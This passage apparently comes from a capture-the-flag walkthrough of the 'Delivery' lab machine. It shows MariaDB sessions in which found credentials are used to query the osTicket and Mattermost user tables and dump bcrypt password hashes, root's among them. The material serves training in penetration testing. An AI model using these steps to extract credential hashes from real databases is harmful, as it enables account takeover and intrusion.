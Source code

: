 Logged within mysql using hunted credentials and extracted password hashes:

```bash
maildeliverer@Delivery:/var/www/osticket$ mysql -u ost_user -p -D osticket
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 108
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [osticket]>
...
MariaDB [osticket]> select username,passwd,email,isadmin from ost_staff;
+---------------+--------------------------------------------------------------+----------------------------+---------+
| username      | passwd                                                       | email                      | isadmin |
+---------------+--------------------------------------------------------------+----------------------------+---------+
| maildeliverer | $2a$08$VlccTgoFaxEaGJnZtWwJBOf2EqMW5L1ZLA72QoQN/TrrOJt9mFGcy | maildeliverer@delivery.htb |       1 |
+---------------+--------------------------------------------------------------+----------------------------+---------+
1 row in set (0.000 sec)
...

maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 132
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.000 sec)
...
MariaDB [mattermost]> select username, Password from Users;
+----------------------------------+--------------------------------------------------------------+
| username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
| maoutis                          | $2a$10$n5KAvICmMNkb.p2v6GykTelCuchClta2OY/c5H2owWZJBjBgPZY8e |
+----------------------------------+--------------------------------------------------------------+
```